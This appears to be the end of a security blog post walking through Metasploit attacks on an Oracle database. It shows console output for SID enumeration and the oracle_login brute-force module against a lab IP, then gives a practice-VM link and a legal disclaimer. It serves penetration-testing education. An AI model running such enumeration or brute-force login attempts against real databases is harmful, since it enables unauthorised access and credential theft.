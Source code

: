 ```
msf > run
[*] 192.168.0.2:1521    - Checking 1 SID false against 192.168.0.2:1521
[*] 192.168.0.2:1521    - 192.168.0.2:1521 Oracle - Checking 'ORCL'
[*] 192.168.0.2:1521    - 192.168.0.2:1521 Oracle - 'ORCL' is valid
[*] 192.168.0.2:1521    - 192.168.0.2:1521 1 of 1 hosts (100%)...
```
## MSF & Accounts
Another simple example:
```
use auxiliary/admin/oracle/oracle_login
msf > run
[*] Starting brute force on 192.168.0.2:1521
...
[*] Auxiliary mode execution completed
```
## The End
This concludes our mini Oracle walk through for this week; Hopefully, you have all learnt something new. If you want to practise attacking Oracle databases, the safest way is to register for the Oracle Developer Days Virtualbox VM:
* http://www.oracle.com/technetwork/database/enterprise-edition/databaseappdev-vm-161299.html

Hopefully next week (or in the near future) we will have the time to cover more attacks against the Oracle database. So stay tuned!

## Disclaimer
Netscylla or its staff cannot be held responsible for any abuse relating from this blog post. This post is to raise awareness in the possible design and implementation flaws from system and database administrators that may or may not include security weaknesses, which may compromise your enterprise database. **REMEMBER: It is illegal to attempt unauthorised access on any system you do not personally own, unless you have explicit permission in writing from the system owner!**

